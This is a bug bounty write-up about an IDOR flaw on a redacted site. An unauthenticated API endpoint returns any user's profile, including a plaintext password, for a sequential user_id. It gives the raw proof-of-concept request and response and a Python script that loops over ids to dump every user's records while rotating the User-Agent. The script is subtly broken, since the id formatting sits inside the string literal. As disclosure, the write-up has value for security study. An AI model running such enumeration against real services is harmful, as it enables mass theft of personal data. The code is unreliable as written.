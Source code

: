 ```yaml
---
title: The story of how I was able to leak all user data
date: 2023-07-04 09:15:00
mermaid: true
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://secure.static.tumblr.com/ef2e2596c4ea072a60453d23ceab337f/coctv14/Y6Ln55n03/tumblr_static_azgsowaz948okgow4c4o8go8c.gif
---
```


## Overview

Missing authentication leads to user data leakage, That's the sentence that describes the problem in this article. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## How do I catch a bug?
I performed basic reconnaissance techniques on the target and performed activities like a normal user. The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a **POST** api request to the path **/api/landing-page/get-user** 

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## Leaking all user data
By using any registered user id can leak registered user data this is a kind of vulnerability [Insecure direct object reference (IDOR)](https://portswigger.net/web-security/access-control/idor) - _is a type of access control vulnerability that arises when applications use user-supplied input to access objects directly._ I knew that the user ids used were not random but sequential so I wrote python code to leak every registered user's data on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png){: .shadow }
_Rewarded by the program_

## Conclusion
Check the incoming traffic including some API requests that you may have missed. Then try to create a good report so that the security team can reproduce the findings as well as create an exploit script that helps to show and exacerbate the impact. This can also be a plus while practicing coding.

That's it, Thanks for reading - <a href="https://x.com/thd3r">@thd3r</a>